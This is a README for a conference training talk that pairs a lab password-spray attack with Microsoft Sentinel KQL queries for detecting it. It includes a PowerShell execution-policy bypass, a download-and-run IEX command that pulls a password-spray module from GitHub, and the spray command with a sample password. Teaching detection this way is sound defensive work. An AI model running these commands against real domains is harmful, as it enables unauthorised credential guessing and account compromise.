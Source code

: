 # Nebraska Cyber Security Conference 2024 - Talk Slides &; Content

## Attack Detect Defend - Jordan Drysdale & Kent Ickler

This-two part talk is a condensed sample from a 16hr training course Jordan and Kent teach, offered by AntiSyphonTraining.com.

In the two sessions we will give an overview into what we call threat optics: auditing endpoints, centralizing logs and visualizing results.

Each student will leave the class having experienced a penetration test through three distinct perspectives, each building on the previous. These will include adversarial attacks, examination of defensive postures, and wrapped up with various detection methodologies using open-source or free industry threat detection and defenses.




![Attack Detect Defend](Z-images/logo/add.png)
![DIV1]


# Course Pre-requisites
This talk discusses 
- GitHub Account 
- Azure Account 
- DOAZLab.com Azure Deployment
- Detailed Instructions: [ADD-Pre-Reqs](https://github.com/DefensiveOrigins/ADD-PreReqs/blob/main/README.md) 

# Course Information 
&#x1F6C8;  [H0001 - Course Information][H0001]  
&#x1F6C8;  [H0004 - Course Instructors][H0004]  




# Conferecne Talk Content    

## Attack Detect Defend - Part 1 (~09/17/24 9:00 AM)

### Slides
- [NECSC24 Attack Detect Defend Part 1][necsc241]

### Password Spray

Launch a PowerShell session with no script validation checks. This will be our first run of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack.

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```



### Password Spray

Launch a PowerShell session with no script validation checks. This will be our second iteration of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack. Re-run the attack. 

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```

The next query uses some underlying accounts, preconfigured for easy detections. Boom - failed logins on known accounts? Guess what, easy detect.

```
SecurityEvent
| where EventID == 4625
// remember the deception account naming conventions? 
| where Account contains "DOLabs"
| project TimeGenerated , Activity , Account
```

Luis and Heloise are both canary accounts we know and maintain. Let's check on them.

```
SecurityEvent
| where EventID == 4624 or EventID == 4625 or EventID == 4776
| where Account contains "Heloise" or Account contains "luis"
| project Activity, Account, Computer, IpAddress
```

Ever seen a password spray in real time logs? 

```
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(24h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

Let's look at some source IP addresses.

```
SecurityEvent
| where EventID == 4625 or EventID == 4776
| summarize count() by IpAddress
```

## Attack Detect Defend - Part 2 (~09/17/24 10:00 AM)

### Slides
- [NECSC24 Attack Detect Defend Part 2][necsc242]

### Some additional commands, listed below, can help with attribution. Though, what can we actually do with this info? 

Geo-lookup!!!

```kusto
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = union Event, SecurityEvent
| where EventID in ("4624","4625")
    and AccountType != "Machine"
    and IpAddress != "-" 
| project IpAddress, TimeGenerated, Activity, EventID;
IPs
| evaluate ipv4_lookup(ipdata, IpAddress, network)
| summarize Count = count() by IpAddress, network, country_iso_code, country_name
| order by Count 
```

Let's check some outbound connections...

```kusto
let ipdata = externaldata (network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = SysmonParser
| where EventID == 3
| where dst_ip != '168.63.129.16'
| summarize by UserName, Computer, tostring(process_path), tostring(src_ip), tostring(src_port), tostring(dst_ip), tostring(dst_port),  tostring(network_protocol), TimeGenerated;
IPs
| evaluate ipv4_lookup(ipdata, dst_ip, network)
| summarize Count = count() by Computer, dst_ip, process_path, country_name
| sort by Count
```

How about a quick peek at the usernames landing in our logs?

```kusto
SecurityEvent
| where EventID == 4625
| summarize count() by TargetAccount
| order by count_
```

Let's take a look at arrays associated with the users guessed by specific source IP addresses.

```kusto
union Event, SecurityEvent
| where TimeGenerated < ago(30m)
| where EventID == 4625 or EventID == 4776
| project Account , IpAddress
| summarize USERs = make_set(Account) by IpAddress
| where USERs[1] != ""
```

This is a failed login perspective based on a timechart. We may have already seen this :D.

```kusto
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(4h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

One last look! Here, we have an SSH server exposed to the Internet. At the time of this gig, Thailand was getting after it! 

```
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = Syslog
| where SyslogMessage startswith "Failed Password"
| order by EventTime desc 
| extend User = extract("for(?s)(.*)from",1,SyslogMessage)
| extend IPaddr = extract("(([0-9]{1,3})\\.([0-9]{1,3})\\.([0-9]{1,3})\\.(([0-9]{1,3})))",1,SyslogMessage) 
| project HostName, SyslogMessage, EventTime, IPaddr, User;
IPs
| evaluate ipv4_lookup(ipdata, IPaddr, network)
| summarize Count = count() by IPaddr, network, country_iso_code, country_name
| order by Count 
```



Copyright - All Rights Reserved, Defensive Origins LLC
<!-- DO-MD-FOOTER-END -->

<!-- DO-MD-SHORTCUTS-START -->
[Home]: ./README.md
[evidref]: 9-Others/Cheatsheets/EventIDs.md
[addlogo]:Z-images/logo/add.png
[addlogosm]:Z-images/logo/addsm.png
[addlogo]:../../Z-images/logo/add.png
[addlogosm]:../../Z-images/logo/addsm.png
[WWHF]: https://wildwesthackinfest.com/
[XXXX]: https://www.google.com
[ph_jd]: Z-images/photo/jd1.png
[ph_ki]: Z-images/photo/ki1.png
[H0004]: /9-Others/H0040-Instructors/README.md
[H0001]: /9-Others/H0001/README.md
[DOImage]: Z-images/do_darkbackground.jpg
[DOImage]:Z-images/do_darkbackground.jpg
[DefOrg]: https://defensiveorigins.com/
[Div1]: Z-images/div/div1.png
[Div2]: Z-images/div/div2.png
[DO]: https://www.defensiveorigins.com
[DO1]: Z-images/logo/DO1.png
[DO1sm]: Z-images/logo/DO1sm.png
[DOAboutUs]: https://defensiveorigins.com/about-us
[DOAZLab]: https://www.doazlab.com
[DOAZLab-Github]: https://github.com/DefensiveOrigins/DO-LAB
[1]: https://defensiveorigins.com/
[2]: https://wildwesthackinfest.com/training/
[APT]:https://github.com/DefensiveOrigins/AtomicPurpleTeam
[necsc241]:https://github.com/DefensiveOrigins/NECSC24/blob/main/9-Others/Attack-Detect-Defend-NECSC-part1%20(1).pdf
[necsc242]:https://github.com/DefensiveOrigins/NECSC24/blob/main/9-Others/Attack-Detect-Defend-NECSC-part1%20(2).pdf